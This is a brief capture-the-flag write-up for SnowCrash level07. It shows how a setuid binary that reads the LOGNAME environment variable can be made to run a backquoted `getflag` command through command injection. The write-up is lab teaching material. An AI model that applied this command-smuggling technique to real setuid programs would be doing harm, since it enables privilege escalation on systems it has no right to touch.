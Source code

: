 # Level07

## Research
--------------

```bash
level07@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```bash
level07@SnowCrash:~$ strings level07
[...]
LOGNAME
[...]
```
The program level07 seems to get the environment variable LOGNAME. </br>

`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

## Solution
---------------

We can modify this variable to ```'`getflag`'``` so it will be taken as ``` `getflag` ``` in the env variable, and then level07 will execute what is in backquotes.</br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```bash
level07@SnowCrash:~$ export LOGNAME='\`getflag\`'
level07@SnowCrash:~$ ./level07
```
Gives the token.

